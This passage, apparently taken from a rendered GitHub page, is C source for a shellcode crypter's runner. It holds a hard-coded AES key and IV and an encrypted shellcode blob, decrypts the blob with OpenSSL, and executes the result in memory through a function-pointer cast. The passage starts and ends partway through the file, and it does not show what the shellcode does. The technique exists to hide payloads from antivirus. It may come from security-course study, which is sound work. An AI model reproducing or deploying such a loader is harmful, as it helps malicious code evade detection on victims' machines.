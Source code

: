 ```code
}

//execute shellcode
void execute_shellcode(unsigned char *shellcode)
{
  printf("\n");
  int (*ret)() = (int(*)())shellcode;
  ret();
}

//main
int main (void)
{
  unsigned char decrypted[128]; //buffer for decrypted shellcode
  int decrypted_len, encrypted_len; //length of shellcode


  //128 bit AES initialization vector used to encrypt the shellcode
  unsigned char iv[] = "KSB1FebW397VI5uG";

  //256 bit AES key used to encrypt the shellcode
  unsigned char key[] = "PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw";

  //encrypted shellcode
  unsigned char encrypted[] = "\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70";

  //length of encrypted shellcode
  encrypted_len = strlen(encrypted);

  printf("[+] Encrypted Shellcode (%d bytes):\n", (encrypted_len));
  print_shellcode(encrypted);

  printf("[+] AES 128 bit IV: %s\n", (iv));
  printf("[+] AES 256 bit Key: %s\n", (key));

  //initialize the library
  ERR_load_crypto_strings();
  OpenSSL_add_all_algorithms();
  OPENSSL_config(NULL);

  //decrypt the shellcode
  decrypted_len = decrypt(encrypted, encrypted_len, key, iv, decrypted);

  //null terminate the shellcode for printing
  decrypted[decrypted_len] = '\0';

  printf("[+] Decrypted Shellcode (%d bytes):\n", (decrypted_len));
  print_shellcode(decrypted);

  //clean up
  EVP_cleanup();
  ERR_free_strings();

  printf("[+] Executing Shellcode:\n");
  //execute shellcode
  execute_shellcode(decrypted);

  return 0;
}

//error handler
void handleErrors(void)
```